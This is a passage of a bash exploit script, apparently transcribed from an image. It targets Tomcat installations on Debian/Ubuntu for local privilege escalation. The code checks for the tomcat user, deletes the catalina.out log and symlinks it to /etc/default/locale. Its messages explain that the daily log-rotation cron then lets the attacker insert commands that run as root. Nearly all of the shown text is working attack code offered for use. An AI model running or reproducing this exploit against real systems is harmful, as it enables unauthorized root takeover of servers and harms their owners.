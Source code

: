     # Priv check
    echo -e "\n[+] Starting the exploit in [\033[94m$mode\033[0m] mode with the following privileges: \n`id`"
    id | grep -q tomcat
    if [ $? -ne 0 ]; then
        echo -e "\n[!] You need to execute the exploit as tomcat user! Exiting.\n"
        exit 3
    fi

    # Set target paths
    TOMCATLOG="$1"
    if [ ! -f $TOMCATLOG ]; then
        echo -e "\n[!] The specified Tomcat catalina.out log ($TOMCATLOG) doesn't exist. Try again.\n"
        exit 3
    fi
    echo -e "\n[+] Target Tomcat log file set to $TOMCATLOG"

    # [ Deferred exploitation ]

    # Symlink the log file to /etc/default/locale file which gets executed daily on default
    # tomcat installations on Debian/Ubuntu by the /etc/cron.daily/tomcatN logrotation cronjob around 6:25am.
    # Attackers can freely add their commands to the /etc/default/locale script after Tomcat has been
    # restarted and file owner gets changed.
    if [ "$mode" = "deferred" ]; then
        rm -f $TOMCATLOG && ln -s /etc/default/locale $TOMCATLOG
        if [ $? -ne 0 ]; then
            echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
            cleanexit 3
        fi
        echo -e  "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
        echo -e  "\n[+] The current owner of the file is: \n`ls -l /etc/default/locale`"
        echo -ne "\n[+] Keep an eye on the owner change on /etc/default/locale . After the Tomcat restart / system reboot"
        echo -ne "\n    you'll be able to add arbitrary commands to the file which will get executed with root privileges"
        echo -ne "\n    at ~6:25am by the /etc/cron.daily/tomcatN log rotation cron. See also -active mode if you can't wait ;)
     \n\n"
        exit 0
    fi
